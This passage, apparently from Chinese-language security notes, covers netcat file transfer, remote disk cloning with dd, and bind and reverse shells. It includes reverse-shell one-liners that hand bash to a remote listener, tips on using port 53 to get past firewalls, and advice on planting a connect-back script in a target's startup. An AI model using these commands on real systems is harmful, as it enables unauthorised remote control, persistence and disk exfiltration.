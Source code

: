 使用 tar

```shell
# - 是压缩后的文件名，不用保存到本地，所以不用指定压缩后的文件名
$ tar cvf - send.png | nc -lp 1000
# 直接接受后解压
$ nc -nv 192.168.33.160 1000 | tar xvf -
```

#### 加密传输文件

加密传输文件需要使用 mcrypt 库

#### 流媒体传输

流媒体传输需要 mplayer

![image-20220613102517237](image-20220613102517237.png)

### 4、远程克隆硬盘

将原硬盘的每一个位都进行克隆

在远程电子取证时可以用，使用方法需要借助 dd 命令，首先通过 nc 监听一个端口，然后通过 dd 指定要克隆的分 区，dd 的 of 参数相当于一个复制功能，然后再另一台机器通过 nc 连接此端口，dd 的 if 参数相当于粘贴的命令。

```shell
$ nc ‐lp 6666 | dd of=/dev/sda
$ dd if=/dev/sda | nc ‐nv 192.168.228.128 6666 ‐q 1
```

### 5、远程控制/正反向

正向 shell

```shell
# kali
$ nc -lvp 7777 -e /bin/bash
$ nc -lp port -c bash

# mac
$ nc -nc ip port
```

通常情况下，一般的服务器都会有防火墙，很少会允许其他外在的机器来连接自己的某一个端口，只有某些指定端口可能会允许访问，例 如 web 服务的 80 端口。

这时正向的 shell 就不不起作用了，而防火墙一般都会禁止外在机器来连接自己机器的其他端口，但自己的机器 访问外面的端口一般不会做限制，这时候就可以使用反向 shell，也就是攻击者指定一个端口和 bash，让目标服务器来连接自己。

这样就可以写一个脚本放到目标服务器的开机启动中，只要目标服务器运行就会连接自己。当然，有些管理员安全意思比较好的话，也会限制自 己的服务器访问外在的一些端口，这种情况很少见，但也有，这时可以指定常用的端口，例如服务器要使用 dns 服务的 53 端口，这时候 自己就可以监听 53 让目标服务器来连接自己。

```shell
# 目标服务器
$ nc -nv ip port -c bash

# 客户端
$ nc -lp port
```
